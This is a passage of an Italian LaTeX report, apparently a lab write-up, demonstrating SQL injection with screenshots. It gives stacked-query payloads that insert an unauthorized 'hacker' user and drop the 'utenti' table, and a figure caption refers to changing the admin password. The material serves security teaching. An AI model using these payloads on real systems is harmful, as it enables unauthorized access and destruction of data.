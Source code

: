 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{figure}[H]
\centering
\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_13.02.43.png}
\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_13.03.35.png}
\caption{Modifica della password dell’utente admin}
\end{figure}

\subsection*{3.4 Inserimento di un nuovo utente}
\begin{lstlisting}
'; INSERT INTO utenti (username, password) VALUES ('hacker', 'hacked'); --
\end{lstlisting}

\begin{figure}[H]
\centering
\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_13.04.18.png}
\caption{Inserimento utente non autorizzato}
\end{figure}

\subsection*{3.5 Eliminazione della tabella utenti}
\begin{lstlisting}
'; DROP TABLE utenti; --
\end{lstlisting}

\begin{figure}[H]
\centering
\includegraphics[width=0.45\textwidth]{relazione_sql_injection_immagini/Screenshot_2025-08-26_alle_13.05.08.png}
\caption{Tabella utenti eliminata}
\end{figure}
\end{document}
